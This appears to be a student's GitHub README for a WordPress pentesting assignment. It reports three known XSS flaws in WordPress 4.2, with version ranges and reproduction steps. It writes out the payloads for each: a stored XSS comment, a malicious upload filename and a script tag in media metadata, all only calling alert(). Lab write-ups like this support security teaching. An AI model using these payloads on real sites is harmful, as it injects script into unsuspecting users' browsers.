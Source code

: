 # Project 7 - WordPress Pentesting

Time spent: Approximately 10 hours spent in total

> Objective: Find, analyze, recreate, and document affecting an old version of WordPress

## Pentesting Report

1. (Required) WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting
  - [x] Summary:
    - Vulnerability types: 	XSS
    - Tested in version: 	4.2 (Released on 04/23/2015)
    - Fixed in version: 	4.2.1
  - [x] GIF Walkthrough: 	exploit1/exploit1.gif
  - [x] Steps to recreate: 	- Go to wordpress site and paste this link in the comment box and post.<a title='xonmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>




2. (Required) WordPress 3.3-4.7.4 - Large File Upload Error XSS
  - [x] Summary:
    - Vulnerability types:	XSS
    - Tested in version: 	4.2 (Released on 04/23/2015)
    - Fixed in version: 	4.2.15
  - [x] GIF Walkthrough:	exploit2/exploit2.gif
  - [x] Steps to recreate:	- Create a file larger than 20MB in size.
				- Rename it to "anyName <img src=x onerror=alert("Exploit2")>.jpg"
				- From admin console, upload this file.(An error will appear saying file too large, but our exploit will also work and alert box will pop up. This shows the vulnerability that )




3. (Required) WordPress 3.6.0-4.7.2 - Authenticated Cross-Site Scripting via Media File Metadata
  - [x] Summary:
    - Vulnerability types:	XSS
    - Tested in version: 	4.2 (Released on 04/23/2015)
    - Fixed in version:		4.7.3
  - [x] GIF Walkthrough:	exploit3/exploit3.gif
  - [x] Steps to recreate:	- Upload a media file containing exploit in form of Metadata.
				- If it doesn't contain Metadata already, we can add it in description of the media file on admin console.
				- Add "filename </noscript><script>alert("Exploit 3 Successful");</script>" in the description including quotes.
				- View attachment page and our alert box will pop up.


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [2017] [Arslan Waheed]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
